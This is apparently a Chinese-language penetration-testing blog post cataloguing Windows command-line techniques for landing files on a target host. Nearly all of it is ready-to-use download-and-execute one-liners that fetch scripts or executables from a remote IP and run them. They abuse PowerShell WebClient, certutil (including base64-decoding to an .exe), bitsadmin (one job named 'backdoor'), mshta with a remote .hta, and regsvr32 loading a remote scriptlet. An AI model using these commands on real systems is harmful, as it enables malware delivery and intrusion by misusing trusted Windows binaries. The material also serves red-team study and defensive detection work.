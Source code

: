 ```yaml
---
layout: post
title: 命令行文件下载-Windows篇(长期更新)
---
```


> *文章长期更新，此文收集总结了Windows下 下载文件的各种姿势，对目标表进行文件的落地（或无落地）*

---

[TOC]

# 0x01 PoweShell

`win2003，winXP`不支持

踩坑

- Powershell 版本大于`2.0`时 在连接两个命令时 用 **空格** 替换了 `;`
- Powershell 版本低于或等于`2.0`时 `DownloadFile()`函数不支持自定义保存路径 文件默认保存在`C:\Users\当前用户名` 下![image-20200403122054016](https://tva1.sinaimg.cn/large/00831rSTly1gdggmdhh09j311w0ecdit.jpg)![image-20200403121710725](https://tva1.sinaimg.cn/large/00831rSTly1gdggiiv0ndj30mo0f040i.jpg)



不指定保存路径兼容性更高


```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '1.bat');start-process '1.bat'
```

指定路径（Windows7以上适用）

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://47.92.194.173/test.txt', '%temp%\1.bat');start-process '%temp%\1.bat'
```

`%temp%`指当前登陆用户的临时目录

---

# 0x02 Certutil

Path

- C:\Windows\System32\certutil.exe
- C:\Windows\SysWOW64\certutil.exe

踩坑

- 低版本certutil不支持指定下载的目录，为了兼容性可以直接在当前目录操作

```php
certutil -urlcache -split -f http://47.92.194.173/test.txt&ren 1.txt 1.bat&1.bat
或者
certutil -urlcache -split -f http://47.92.194.173/test.txt %temp%\1.bat&%temp%\1.bat
```

Certutil也支持base64加解密以及16进制解密

![image-20200403165312327](https://tva1.sinaimg.cn/large/00831rSTly1gdgohpx2oaj30lu052wfb.jpg)

```php
certutil -urlcache -split -f http://47.92.194.173/test.bs4 %temp%\1.bs4&certutil -decode %temp%\1.bs4 %temp%\1.exe&%temp%\1.exe
```

---

# 0x03 bitsadmin

Path:

- C:\Windows\System32\bitsadmin.exe
- C:\Windows\SysWOW64\bitsadmin.exe

踩坑：

- 在Windows7或某些版本的Windows10上会运行失败 出现以下报错

  > BITSAdmin is deprecated and is not guaranteed to be available in future versions
  >  of Windows.
  >
  > BITSAdmin已弃用，并且不能保证在将来的Windows版本中可用。
  >
  > Administrative tools for the BITS service are now provided by BITS PowerShell cm
  > dlets.
  >
  > BITS PowerShell cmdlet现在提供了BITS服务的管理工具

  



```python
bitsadmin /transfer n http://github.com/3gstudent/test/raw/master/putty.exe c:\a.exe && c:\a.exe

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt c:\autoruns.bat bitsadmin /RESUME 1 bitsadmin /complete 1

bitsadmin /create 1 bitsadmin /addfile 1 http://47.92.194.173/test.txt C:\Program Files (x86)\1.bat bitsadmin /RESUME 1 bitsadmin /complete 1



bitsadmin /rawreturn /transfer getfile http://47.92.194.173/test.txt C:\Program Files\1.bat



bitsadmin /transfer myDownLoadJob /download /priority normal "http://47.92.194.173/test.txt" "C:\Program Files (x86)\1.bat"

bitsadmin /transfer backdoor http://47.92.194.173/test.txt C:\Program Files\1.bat

DISPLAY: '任务名' TYPE: DOWNLOAD STATE: TRANSFERRED PRIORITY: NORMAL FILES: 1 / 1 BYTES: 11392 / 11392 (100%) Transfer complete

默认情况下bitsadmin下载速度极慢，下载较大文件需要设置优先级提速，以下是用法示例：

\#下载filezilla FTP客户端，任务名是333 start bitsadmin /transfer 333 http://dwz.cn/fffftp c:\333.exe #设置任务333为最高优先级 bitsadmin /setpriority 333 foreground

bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像CURL WGET 这类工具那样能用来下载HTML页面。

bitsadmin 权限问题待解决

bitsadmin已经在win7 win10 win2008 不可用


```

---

# 0x04 mshta

mshta http://47.92.194.173/hack.hta 支持短网址

http://suo.im/5VA0Ut





regsvr32 /u /s /i:http://47.92.194.173/test1.sct scrobj.dll
